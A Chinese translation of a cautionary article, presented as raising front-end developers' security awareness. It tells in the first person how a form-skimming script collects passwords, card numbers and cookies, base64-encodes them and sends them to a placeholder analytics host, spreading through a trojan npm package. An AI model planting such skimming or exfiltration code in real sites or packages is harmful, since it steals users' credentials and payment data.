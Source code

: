 # 我是如何从你的网站盗取银行卡和密码的
> 译者：本文翻译自[hackermoon上的文章](https://hackernoon.com/im-harvesting-credit-card-numbers-and-passwords-from-your-site-here-s-how-9a8cb347c5b5)，希望本文能唤起广大前端工作者的安全意识，以下为正文:

*** 

> 以下是一个真实的故事。或者它可能只是基于一个真实的故事。也许这根本不是真的。

这是一个疯狂的安全恐慌周——似乎每天都有一个新的漏洞。当家里人询问我相关的事情时，我需要假装我很懂行，这真的让我感到很煎熬。

看到与我亲近的人都在忧虑“被盗窃”，这确实让我有所感触。

所以，我怀着沉重的心情，决定干净利落地告诉你，我过去几年是如何偷你的网站上的用户名，密码和信用卡号码。

***

恶意代码本身非常简单，当它在满足以下条件的页面上运行时，它就能发挥作用：

* 该页面有一个\<form>标签
* 一个input[type="password"]元素，或者name属性为"cardnumber"或"cvc"的元素等
* 该页面包含“信用卡”，“结账”，“登录”，“密码”等字样。

然后，当密码/信用卡字段上出现"blur"事件或form标签上监听到"submit"事件时，我的代码：

* 获取页面上的所有表单字段（document.forms.forEach(…)）
* 获取document.cookie
* 将这些信息变成随机的字符串：
```jsx
 const payload = btoa(JSON.stringify(sensitiveUserData))
```
* 然后将其发送到`https://legit-analytics.com?q=${payload}`（当然这不是真正的域名）

简而言之，只要是看起来对我有价值的数据，我就会把它发送到我的服务器。

***

2015年时，当我第一次编写这段代码时，它毫无用处，只能躲在我电脑里。我需要把它散布到这个世界，进入你的网站。

用Google的一句话：如果攻击者成功注入了任何代码，那么游戏结束了！

XSS规模太小，而且已经被针对保护得很好了。

Chrome扩展程序也是被限制死的。

幸运的是，我们生活在一个人人都使用npm的时代，就像他们磕止痛药一样。

*** 

所以，npm是我的散布方法。我需要创造一些有用的开源软件，让人们不假思索地安装——我的特洛伊木马。

人们喜欢漂亮的颜色 - 这是我们与狗之间的区别 - 所以我写了一个包，让你以任何颜色登录控制台。

![]()
